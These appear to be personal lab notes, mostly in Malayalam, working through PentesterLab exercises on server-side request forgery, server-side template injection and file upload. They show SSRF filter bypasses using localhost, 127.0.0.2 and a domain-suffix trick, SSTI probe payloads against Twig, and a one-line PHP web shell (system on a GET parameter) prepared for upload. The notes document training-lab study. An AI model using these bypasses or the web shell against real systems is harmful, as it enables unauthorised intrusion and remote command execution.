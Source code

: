 # Solving Server Side Request Forgery 02
-->ividem nerthe pole thane.but ivide url=http://127.0.0.1:1234 enn idumbol invalid url ennan kanikunath.so namuk vere reethiyil chyam
->http://ptl-ec88a3ef-46610729.libcurl.so/?url=http://localhost:1234  
-->ingane 127.0.0.1  in pakaram localhost enn koduthapol namuk key kiti ok

# Server Side Request Forgery 03
-->ividem nerthe pole thane but ivide 127.0.0.1:1234  enn kodukumbol akunila.so namal 127.0.0.2:1234 enn kodukumbol namuk key kitunund ok
->http://ptl-a65d1f8f-599822fc.libcurl.so/?url=http://127.0.0.2:1234

# Server Side Request Forgery 04
-->In this example, the developer blocked everything that doesn't match assets.pentesterlab.com. However, the regular expression seems a bit weak.
-->ivide lab open chyuka.apol ee url ilek pokum
->http://ptl-67df8663-4813be38.libcurl.so/?url=https://assets.pentesterlab.com/hacker.txt
-->ivide namuk test chyam.aaduam httsp ennath http aaki nokumbol error varunila.athupole pentesterlab.com in sesham oru dot ittapolum error onum varunila.athan suffix
-->so ee dot in shseham namuk vere oru domain kodukam.ivide lab thane oru domain tharunund.so athil port 1234 koduth chyumbol namuk key kitunund ok
-->http://ptl-67df8663-4813be38.libcurl.so/?url=http://assets.pentesterlab.com.hackingwithpentesterlab.link:1234/hacker.txt

============================================================

# Server Side Template Injection 01(m)
-->This exercise was inspired by the following Hackerone report: [https://hackerone.com/reports/125980](https://hackerone.com/reports/125980). In this exercise, the bug is located in the 404 error management.
-->site il 404 error engane handle chyunu enn nokam.so https://url/test ennadikunu.apol 404 error varunu.so ini /test{{4-1}} enn kodukumbol /test3 enn kanikunu.so SSTI und.ini full enthnokeyo python nte class matethum oke nokunathan
-->ith medium difficulty aan.sambavam manasilayi but petern manasilakan patila.

# Server Side Template Injection 02
-->url paramter il name={{2-1}}  enn itt kodukuka.apol 1 enn kanichal SSTI unden artham ok. so `{{_self}}` enn koduth nokuka.apol error varum.eth template aanenum chelapo kanichakum ok
-->ith easy lab aan.but enthokeyo ivan chyunund.
-->ivide twig enna template engandan use chythitullath.so athin manasilakuna reethiyil venam namal code execution chyan ok

============================================================

# File Upload 01
-->Here we will cover how to use file upload functionalities to gain code execution.
-->so aadyam lab open chyuka.avide file upload chyan ulla option undakum.so namal thil click chyth upload chyanam
-->athin mumb aadyam oru php file undakanam.enit ee code athil edanam
```
<?php
	system($_GET["cmd"]);
?>
```
-->enit save chythit ee file upload chyanam.apol aa file view chyan ulla button kanikum.so athil click chyumbol :
```
**Notice**: Undefined index: cmd in **/var/www/upload/php.php** on line **2**  
  
```